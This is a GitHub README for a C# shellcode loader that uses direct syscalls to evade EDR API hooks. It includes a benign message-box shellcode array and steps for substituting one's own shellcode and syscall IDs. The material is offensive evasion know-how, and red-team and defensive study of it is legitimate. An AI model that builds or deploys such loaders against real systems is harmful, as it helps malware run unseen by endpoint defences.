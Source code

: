 # SysCall_ShellcodeLoad_Csharp

Blog link: working on it.

Github Link: https://github.com/Kara-4search/SysCall_ShellcodeLoad_Csharp

- Base on my another project: https://github.com/Kara-4search/Simple_ShellCodeLoader_CSharp
- A shellcode loader written in CSharp, the main purpose is to bypass the EDR API hook.
- Only tested in Win10_x64, may not gonna work in x86.
- Loading shellcode with direct syscall.
- You need to replace the "syscall identifier" with your syscall ID, which you could find on your system
- About how to find the syscall ID on your system, check the link below:

   1. Use windbg: https://jhalon.github.io/utilizing-syscalls-in-csharp-2/
   2. Check the system call table: https://j00ru.vexillium.org/syscalls/nt/64/
   3. Find the syscall ID automatically(DONE)

- Original shellcode is a Message
	```
            /*   Messagebox shellcode   */
            
            byte[] buf1 = new byte[328] {
                0xfc, 0x48, 0x81, 0xe4, 0xf0, 0xff, 0xff, 0xff, 0xe8, 0xd0, 0x00, 0x00,
                0x00, 0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65,
                0x48, 0x8b, 0x52, 0x60, 0x3e, 0x48, 0x8b, 0x52, 0x18, 0x3e, 0x48, 0x8b,
                0x52, 0x20, 0x3e, 0x48, 0x8b, 0x72, 0x50, 0x3e, 0x48, 0x0f, 0xb7, 0x4a,
                0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 0x61, 0x7c, 0x02,
                0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0xe2, 0xed, 0x52,
                0x41, 0x51, 0x3e, 0x48, 0x8b, 0x52, 0x20, 0x3e, 0x8b, 0x42, 0x3c, 0x48,
                0x01, 0xd0, 0x3e, 0x8b, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48, 0x85, 0xc0,
                0x74, 0x6f, 0x48, 0x01, 0xd0, 0x50, 0x3e, 0x8b, 0x48, 0x18, 0x3e, 0x44,
                0x8b, 0x40, 0x20, 0x49, 0x01, 0xd0, 0xe3, 0x5c, 0x48, 0xff, 0xc9, 0x3e,
                0x41, 0x8b, 0x34, 0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31,
                0xc0, 0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 0x75,
                0xf1, 0x3e, 0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 0x75, 0xd6,
                0x58, 0x3e, 0x44, 0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 0x66, 0x3e, 0x41,
                0x8b, 0x0c, 0x48, 0x3e, 0x44, 0x8b, 0x40, 0x1c, 0x49, 0x01, 0xd0, 0x3e,
                0x41, 0x8b, 0x04, 0x88, 0x48, 0x01, 0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e,
                0x59, 0x5a, 0x41, 0x58, 0x41, 0x59, 0x41, 0x5a, 0x48, 0x83, 0xec, 0x20,
                0x41, 0x52, 0xff, 0xe0, 0x58, 0x41, 0x59, 0x5a, 0x3e, 0x48, 0x8b, 0x12,
                0xe9, 0x49, 0xff, 0xff, 0xff, 0x5d, 0x49, 0xc7, 0xc1, 0x00, 0x00, 0x00,
                0x00, 0x3e, 0x48, 0x8d, 0x95, 0x1a, 0x01, 0x00, 0x00, 0x3e, 0x4c, 0x8d,
                0x85, 0x35, 0x01, 0x00, 0x00, 0x48, 0x31, 0xc9, 0x41, 0xba, 0x45, 0x83,
                0x56, 0x07, 0xff, 0xd5, 0xbb, 0xe0, 0x1d, 0x2a, 0x0a, 0x41, 0xba, 0xa6,
                0x95, 0xbd, 0x9d, 0xff, 0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c,
                0x0a, 0x80, 0xfb, 0xe0, 0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a,
                0x00, 0x59, 0x41, 0x89, 0xda, 0xff, 0xd5, 0x48, 0x65, 0x6C, 0x6C, 0x6F, 
                0x20, 0x77, 0x6F, 0x72, 0x6C, 0x64, 0x20, 0x76, 0x69, 0x61, 0x20, 0x73, 
                0x79, 0x73, 0x63, 0x61, 0x6C, 0x6C, 0x00, 0x41, 0x50, 0x49, 0x20, 0x54, 
                0x65, 0x73, 0x74, 0x00 
            };
	original```
- You may need to read those posts below **the Reference link** so you could understand how it works.
- Feel free to make any issues.


## Usage
1. I updated the SysCall_ShellcodeLoad, now it's gonna find the syscall ID automatically(Check the file - Auto_NativeCode.cs).
2. If you want to test the old verison SysCall_ShellcodeLoad，
	* You just need to remove all the "Auto_NativeCode" from Program.cs 
	* And Replace the syscall ID with your own.
3. Replace the "buf1" with your own shellcode.
   ![avatar](https://raw.githubusercontent.com/Kara-4search/tempPic/main/SysCall_ShellcodeLoad_buf1.png)
4. Replace the syscall ID with your own.
* There are three syscall IDs you need to replace.
	- 1). NtAllocateVirtualMemory
  ![avatar](https://raw.githubusercontent.com/Kara-4search/tempPic/main/SysCall_ShellcodeLoad_CUntAVM.png)
	- 2). NtCreateThreadEx
  ![avatar](https://raw.githubusercontent.com/Kara-4search/tempPic/main/SysCall_ShellcodeLoad_CUntCT.png)
	- 3). NtWaitForSingleObject
  ![avatar](https://raw.githubusercontent.com/Kara-4search/tempPic/main/SysCall_ShellcodeLoad_CUntWFSO.png)

 
## Reference link:

1. https://github.com/SolomonSklash/SyscallPOC
2. https://jhalon.github.io/utilizing-syscalls-in-csharp-1/
3. https://jhalon.github.io/utilizing-syscalls-in-csharp-2/
4. https://www.solomonsklash.io/syscalls-for-shellcode-injection.html
5. https://www.pinvoke.net/default.aspx
6. https://github.com/jhalon/SharpCall/blob/master/Syscalls.cs
7. https://github.com/badBounty/directInjectorPOC
8. https://j00ru.vexillium.org/syscalls/nt/64/
9. http://undocumented.ntinternals.net/index.html?page=UserMode%2FUndocumented%20Functions%2FMemory%20Management%2FVirtual%20Memory%2FNtAllocateVirtualMemory.html

   